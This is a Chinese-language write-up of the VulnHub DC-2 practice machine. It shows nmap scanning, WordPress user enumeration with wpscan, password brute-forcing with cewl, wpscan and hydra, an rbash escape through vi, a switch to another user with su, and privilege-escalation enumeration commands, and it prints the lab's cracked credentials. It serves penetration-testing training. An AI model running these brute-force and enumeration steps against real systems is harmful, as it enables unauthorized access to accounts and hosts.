# 目标

get **flags**

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap 192.168.64.0/24 -sn --max-rate 10000
```

靶机的地址是`192.168.64.36`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap 192.168.64.36 -sS -sV -Pn --max-rate 10000 -p-
```


**TCP connection扫描**
```shell
nmap 192.168.64.36 -sT -sV -Pn --max-rate 10000 -p-
```


**UDP扫描**
```shell
nmap 192.168.64.36 -sU -sV -Pn --max-rate 10000 --top-ports 100
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.36 -sV -sC -O -Pn -p 80,7744,2 -oA nmap-scan/default
```


**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.36 -sV --script vuln -O -Pn -p 80,7744,2 -oA nmap-scan/vuln
```
有很多信息。

## 1.3 80端口获取信息
**访问`http://192.168.64.36`**
访问回跳至`http://DC-2`, 因此在`/etc/hosts`里面添加配置，
```text
192.168.64.36 DC-2
```

就是wordpress.

**扫描这个CMS**
```shell
wpscan --url http://dc-2 --enumerate vp,u --plugins-detection passive
```
有用的信息如下，
```text
[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
[+] WordPress theme in use: twentyseventeen
WordPress version 4.7.10
[i] User(s) Identified:
[+] admin
[+] jerry
[+] tom
```

**测试这个`xmlrpc`是否可用**

存在`system.multicall`函数，但是wordpress版本是4.7.10，不适用。

> system.multicall函数只适用于wordpress < 4.4

**尝试暴力破解wordpress用户密码**
但是还是可以尝试利用网站构造小字典，来破解一下。
将上面的3个用户名保存在`users.txt`文件中。
```shell
# 构造网站小字典
cewl -d 4 -w 4 --with-numbers http://dc-2 -w site.txt
# 开始暴力破解
wpscan --url http://dc-2 --usernames users.txt --passwords site.txt --password-attack wp-login
```

```
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

## 1.4 7744端口获取信息
```shell
nmap 192.168.64.36 -sV --script ssh-hostkey.nse,ssh-auth-methods.nse -p 7744
```



---

# 2.建立系统立足点

**登陆wordpress**
登陆了2个账号，查找了一圈，除了有一个可以上传文件的地方，没什么可以利用的地方，

先随意上传一张图片试试，

完蛋，当前2个用户都不能上传。

**那就用已经获取的2对用户名与密码去试试登陆ssh**
创建`users.txt`文件，内容为，
```text
jerry
tom
```

创建`passwd.txt`文件，内容为，
```text
parturient
adipiscing
```

爆破一下，
```shell
hydra -L users.txt -P passwd.txt -s 7744 ssh://192.168.64.36 -t 2 -V
```
真的得到一个，
- username: `tom`
- password: `parturient`

**登陆ssh**

这是一个`restrict  bash`受限的环境。

可以执行4个命令: `less`, `ls`, `scp`, `vi`

查看一下`/home/tom/flag3.txt`
```text
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

查看`/etc/passwd`
```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
sshd:x:107:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:108:114:MySQL Server,,,:/nonexistent:/bin/false
tom:x:1001:1001:Tom Cat,,,:/home/tom:/bin/rbash
jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash
```
如果可以登陆jerry账户就好了。

查看`/home/jerry/flag4.txt`
```text
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```

查看系统内核版本
```shell
less /proc/sys/kernel/version
#1 Debian 3.16.51-3 (2017-12-13)
```

没什么信息了，再去上面wordpress里面看看，特别注意一下jerry用户。

在这里找到一个提醒，让我去其他地方找找进攻点。

让我们去2个账号都看看。

哎😑 实在没什么信息，上面的4个命令会不会是突破口？
可以去GTFOBins网站上面查一下，好像还真有一个，

去尝试一下，

这个还真可以。
没有上面的命令，应该是环境变量没加进去，那就加入环境变量，
```shell
export PATH=$PATH:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

终于建立立足点了。

---

# 3.系统提权

三板斧，
```shell
sudo -l
find / -perm -4000 -type f 2>/dev/null
find / \( -path /sys -o -path /lib -o -path /usr -o -path /proc -o -path /boot -o -path /run -o -path /etc -o -path /bin -o -path /var/lib \) -prune -o -name "*key*" 2>/dev/null
find / \( -path /sys -o -path /lib -o -path /usr -o -path /proc -o -path /boot -o -path /run -o -path /etc -o -path /bin -o -path /var/lib \) -prune -o -name "*pass*" 2>/dev/null
find / \( -path /sys -o -path /lib -o -path /usr -o -path /proc -o -path /boot -o -path /run -o -path /etc -o -path /bin -o -path /var/lib \) -prune -o -name "*back*" 2>/dev/null
find / \( -path /sys -o -path /lib -o -path /usr -o -path /proc -o -path /boot -o -path /run -o -path /etc -o -path /bin -o -path /var/lib \) -prune -o -name "*bak*" 2>/dev/null
```
没发现什么有用的信息。从上面的`/etc/passwd`可以看出系统里面是存在`jerry`这个用户的。

可以去查看一下系统里面的ssh配置文件，这个ssh配置是明显改动过了（从上面的端口就可以看出来），上面使用hydra爆破用户及密码只出来了一个，那有没有可能是ssh配置的问题？
```shell
cat /etc/ssh/sshd_config
```
关键内容如下，
```text
# What ports, IPs and protocols we listen for
Port 7744

# Authentication:
LoginGraceTime 120
PermitRootLogin no
AllowUsers tom 
StrictModes yes
```
果然只是允许tom用户通过ssh登陆，那上面的jerry用户的密码就不一定就是错的。

切换成jerry用户，试一试，

事实证明可以成功。

又是三板斧，
```shell
sudo -l
find / -perm -4000 -type f 2>/dev/null
find / \( -path /sys -o -path /lib -o -path /usr -o -path /proc -o -path /boot -o -path /run -o -path /etc -o -path /bin -o -path /var/lib \) -prune -o -name "*key*" 2>/dev/null
find / \( -path /sys -o -path /lib -o -path /usr -o -path /proc -o -path /boot -o -path /run -o -path /etc -o -path /bin -o -path /var/lib \) -prune -o -name "*pass*" 2>/dev/null
find / \( -path /sys -o -path /lib -o -path /usr -o -path /proc -o -path /boot -o -path /run -o -path /etc -o -path /bin -o -path /var/lib \) -prune -o -name "*back*" 2>/dev/null
find / \( -path /sys -o -path /lib -o -path /usr -o -path /proc -o -path /boot -o -path /run -o -path /etc -o -path /bin -o -path /var/lib \) -prune -o -name "*bak*" 2>/dev/null
```

去GTOFBins上面查找一下，




---
---

# 💻 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G` `512G`
- macOS `14.8.5`

## 软件
- UTM version `4.7.5`

**kali**:
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

**DC-2**: 
- website: `https://www.vulnhub.com/entry/dc-2,311/`
- IP: `192.168.64.36`
- CPU Arch: `i386`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐